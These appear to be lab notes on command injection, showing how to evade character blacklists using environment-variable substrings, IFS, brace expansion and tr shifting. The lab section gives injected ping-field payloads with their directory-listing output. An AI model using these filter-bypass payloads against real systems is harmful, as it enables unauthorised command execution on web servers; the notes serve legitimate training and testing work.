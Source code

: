 # Bypassing Other Blacklisted Characters

## Linux

While ${IFS} is directly replaced with a space, there's no such environment variable for slashes or semi-colons

We can specify start and length of specific environment variables :

echo ${PATH}
/usr/local/bin:/usr/bin:/bin:/usr/games

echo ${PATH:0:1}
/

${PATH:0:1} is enough in our payload

echo ${LS_COLORS:10:1}
;

## Windows

echo %HOMEPATH:~6,-11%
\

Windows PowerShell :

$env:HOMEPATH[0]
\

$env:PROGRAMFILES[10]

We can also use the Get-ChildItem Env

## Character Shifting

man ascii     # \ is on 92, before it is [ on 91
echo $(tr '!-}' '"-~'<<<[)
\

--> Powershell can do the same

## LAB

127.0.0.1%0a{ls,-la}

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
total 16
drwxr-xr-x 1 www-data www-data 4096 Jul 16  2021 .
drwxr-xr-x 1 www-data www-data 4096 Aug 19  2020 ..
-rw-r--r-- 1 www-data www-data 1613 Jul 16  2021 index.php
-rw-r--r-- 1 www-data www-data 1256 Jul 12  2021 style.css

127.0.0.1%0a{ls,-la}${PATH:0:1}home

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms

127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
/home:
total 12
drwxr-xr-x 1 root     root     4096 Jul 16  2021 .
drwxr-xr-x 1 root     root     4096 Jan  4 17:41 ..
drwxr-xr-x 1 1nj3c70r 1nj3c70r 4096 Jul 16  2021 1nj3c70r

/home:
total 12
drwxr-xr-x 1 root     root     4096 Jul 16  2021 .
drwxr-xr-x 1 root     root     4096 Jan  4 17:41 ..
drwxr-xr-x 1 1nj3c70r 1nj3c70r 4096 Jul 16  2021 1nj3c70r